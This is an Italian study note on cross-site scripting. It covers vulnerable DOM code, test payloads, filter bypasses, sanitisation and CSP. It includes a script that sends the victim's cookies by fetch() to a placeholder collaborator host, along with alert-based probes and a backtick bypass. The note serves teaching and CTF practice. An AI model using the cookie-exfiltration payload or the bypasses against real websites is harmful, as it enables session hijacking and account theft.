# Cross Site Scripting

Vulnerabilità di sicurezza web che consente a un attaccante di iniettare script (solitamente JavaScript) nelle pagine web visualizzate dagli utenti. 
Questi script possono essere eseguiti nel contesto del browser dell'utente vittima, consentendo all'attaccante di rubare informazioni sensibili, assumere il controllo dell'account dell'utente ecc...

# Come evitarlo

Avviene quando l'input di un utente non viene sanificato (ad esempio attraverso [DOMPurify](https://github.com/cure53/DOMPurify) ) e viene inserito in una pagina.
L'attack surface è enorme, in quanto ogni possibile modo di ottenere l'input da un utente potrebbe risultare in un XSS, l'importante è che gli input vengano sanificati prima di essere reindirizzati

Esempi di codice vulnerabili:

```
document.write('<p>I tuoi cookie sono: ' + document.cookie + '</p>');

document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;

var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;

```
# Payload

[XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

Payload di base che ruba il cookie di un utente e lo invia al tuo webhook:

```

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```
Altri payload di esempio (per far capire che ne esistono di infiniti) tramite gli eventi dei tag html:

```
${alert(1)}

onerror=alert;throw 1

'-alert(document.domain)-'
';alert(document.domain)//  per uscire da stringhe precedenti, cercate sempre di uscire dal contesto precedente
"alert(document.domain)

PS potete usare il protocollo javascript:alert(1) per eseguire XSS tramite l'url
<a href="javascript:alert('PWNED');">

```
Usiamo alert o print perchè ci permettono al volo di vedere che abbiamo una XSS. Se viene eseguita una alert allora potete eseguire quello che volete.

# Bypass
In questi casi è importante capire (sopratutto nelle CTF) che tipo di bypass bisogna effettuare, può capitare che vengano tolte le parentesi, questo non è un problema perchè si possono eseguire script con i backtick:

```
alert`1`
```
Dato un certo blocco è molto probabile che voi riusciate a trovare un metodo per rendere lo script eseguibile, basta saperlo cercare. (ATTENZIONE all'header CSP nelle richieste)

# Tipi di XSS

XSS può essere Reflected, Stored o DOM Based, in base al modo in cui viene salvato/eseguito l' XSS.
Trovi di più su PortSwigger

# Sicurezza Sanificazione

Esistono delle funzioni per sanificare l'input, le piu comuni sono : 

```
htmlentities
ENT_QUOTES

```
Ma non è detto che bastino. Visitate le best practice nella doc del vostro linguaggio/framework e testate il sito per capire se la sanificazione è stata effettuata correttamente.

# Sicurezza CSP

Il Content Security Policy è una delle misure di sicurezza che, se ben configurata, permette di evitare l'esecuzione di XSS.
Ovviamente il must rimane la sanificazione, ma potremmo usare il CSP come ulteriore misura di sicurezza.
Trovate la sua spiegazione ,ovviamente, su PortSwigger e una versione da "Developer" qui: 

[CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

Attenzione alle librerie che importante, anche il CSS può portare al bypass del CSP, è facile che sia mal configurato.
